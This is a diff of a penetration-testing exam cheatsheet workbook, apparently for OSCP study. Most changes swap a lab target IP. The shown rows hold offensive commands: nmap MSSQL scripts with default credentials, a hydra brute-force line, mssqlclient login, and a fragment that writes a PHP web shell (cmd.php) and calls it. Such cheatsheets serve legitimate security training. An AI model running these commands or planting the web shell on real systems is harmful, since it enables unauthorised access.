

Before and after one commit to NurvX/OSCP-Cheatsheet, an Excel workbook: OSCP-checklist_v0.1.1.xlsm, sheet Commands, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures and table styles not drawn; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
+++ b/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
-D2: 192.168.178.66
+D2: 192.168.178.70
-E88: …--script mysql-info 192.168.178.66
+E88: …--script mysql-info 192.168.178.70
-E89: …-Pn -T4 192.168.178.66
+E89: …-Pn -T4 192.168.178.70
-E92: mysql -u root@192.168.178.66 -p
+E92: mysql -u root@192.168.178.70 -p
-E93: …-u -f 192.168.178.66 mysql
+E93: …-u -f 192.168.178.70 mysql
-E96: …'c:/xampp/htdocs/cmd.php'; ↵ firefox http://192.168.178.66/cmd.php?cmd=whoami
+E96: …'c:/xampp/htdocs/cmd.php'; ↵ firefox http://192.168.178.70/cmd.php?cmd=whoami
-row 97: 1433 - mssql | Windows | nmap | default scripts | nmap -p1433 -Pn -T4 --script ms-sql-info,ms-sql-ntlm-info 192.168.178.66 |  | Run as part of default scan
-row 98: 1433 - mssql | Windows | nmap | additional nmap scripts | nmap -p27900 -sV --script ms-sql-tables,ms-sql-xp-cmdshell,ms-sql-hasdbaccess,ms-sql-dump-hashes,ms-sql-config,ms-sql-query --script-args mssql.username=sa,mssql.password=password -Pn -T4 192.168.178.66 |  | Requires credentials, as it is running, we manually enumerate the db
-row 99: 1433 - mssql | Windows | mssqlclient.py | login | mssqlclient.py -p 1433 <username>:<password>@192.168.178.66 |  | Login remotely ↵ If the password has special characters, they need to be escaped first
-row 100: 1433 - mssql | Windows | hydra | brute | hydra -s 1433/27900 -C /usr/share/sparta/wordlists/mssql-default-userpass.txt -u -f 192.168.178.66 mssql |  | Checks for anonymous login as well
```
Also changed, not shown: 112 removed rows and 148 hidden or unhidden rows elsewhere in this sheet, hidden cells, charts or pictures.
